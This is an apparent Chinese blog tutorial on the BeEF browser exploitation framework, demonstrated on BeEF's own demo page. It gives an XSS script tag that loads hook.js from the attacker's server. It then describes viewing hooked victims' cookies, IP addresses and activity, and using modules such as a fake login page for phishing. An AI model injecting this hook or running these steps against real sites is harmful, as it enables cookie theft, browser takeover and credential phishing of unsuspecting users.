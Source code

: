 # beef的简单使用

## [#](https://lssblog.ml/blogs/入狱小技巧/beef/2021/beef的简单使用.html#hook-js)hook.js

- beef好比一个鱼竿，hook.js就像是鱼钩，鱼只要上钩了你就可以为所欲为了
- 那么如何让鱼上钩呢？这就要利用到xss攻击了。只要成功把以下这段代码嵌入对方网站，那就算是成功把饵放到受害水鱼家里去了

```javascript
  <script src="http://127.0.0.1:3000/hook.js"><script>
```

1

- 只要对方访问这个网站，就会中钩，那你就能使用beef进行操作了

## [#](https://lssblog.ml/blogs/入狱小技巧/beef/2021/beef的简单使用.html#beef功能基础演示)beef功能基础演示

- 为了维护网络(怂)的安全，就不用真实网站来演示了。就用beef这个网页来自测。
- 直接进入beef自带的demo，页面里就存放有鱼钩hook.js了。

![mahua](https://ae01.alicdn.com/kf/U14ba4b60340e4e929c32821ad0368572D.jpg)

- 进入网页那瞬间你就悄无声息的上钩了,此时按下F12查看控制台就能发现hook.js正在执行

![mahua](https://ae01.alicdn.com/kf/U80a08eeea6824ebd97869f2cf0205818Z.jpg)

- 这时不关闭这个网页，回到beef的首页面，可以看到在线浏览器里多里一个受害者

![mahua](https://ae01.alicdn.com/kf/Ud15a12a39d97462893d07e3af9f682b9G.jpg)

- 点击这名受害者后再点击右边控制界面的 '当前浏览器' 可以获取数据或者进行一些操作等
- 点击细节选项可以查看对方的使用的设备浏览器以及系统信息包括最重要的cookies和ip地址也能看到

![mahua](https://ae01.alicdn.com/kf/U45ba7c0aa9484c0f9cdf1467050087eab.jpg)

- 点击日志选项可以查看对方在网页上做了什么操作

![mahua](https://ae01.alicdn.com/kf/Uacd48a1fcefc45ab992533ec839ec3716.jpg)

- 点击指令选项就能使用beef的攻击功能了,beef的精髓全在这里面，本人也是没研究透。

![mahua](https://ae01.alicdn.com/kf/U8a2fab9789234153a7cc88e03f63ace5X.jpg)

- 可以看到功能挺多啊，就挑几个简单典型的功能演示吧
- 比如这个播放声音，输入文件路径，点击执行。这时候受害者就跟浏览器一样懵逼，咦哪来的声音

![mahua](https://ae01.alicdn.com/kf/U5d65256c3ddc49bc996872ccbb51fbbf2.jpg)

![mahua](https://ae01.alicdn.com/kf/U9adce60c0b404fc7a772fe0f09d7b51er.jpg)

- 摄像头这个功能就比较鸡肋了，不仅需要受害人安装有Adobe Flash，还需要对方点击同意

![mahua](https://ae01.alicdn.com/kf/Uecfff2986431499e935d9d470d4f9ff6D.jpg)

- 社会工程学模块，是专门用来钓鱼的，制造一个假的网页，引诱用户输入账号密码

![mahua](https://ae01.alicdn.com/kf/U13cc450d4b324c37b44008cfc2f90b3f5.jpg)

![mahua](https://ae01.alicdn.com/kf/Uc0999c07498a48b2aee44c019ea3fcc9d.jpg)

![mahua](https://ae01.alicdn.com/kf/U0b38e1b66c864dce884cd22af4754f62X.jpg)

[#](https://lssblog.ml/blogs/免费资源白嫖/2021/免费证书申请.html#freessl-cn一个提供免费https证书申请的网站)FreeSSL.cn一个提供免费HTTPS证书申请的网站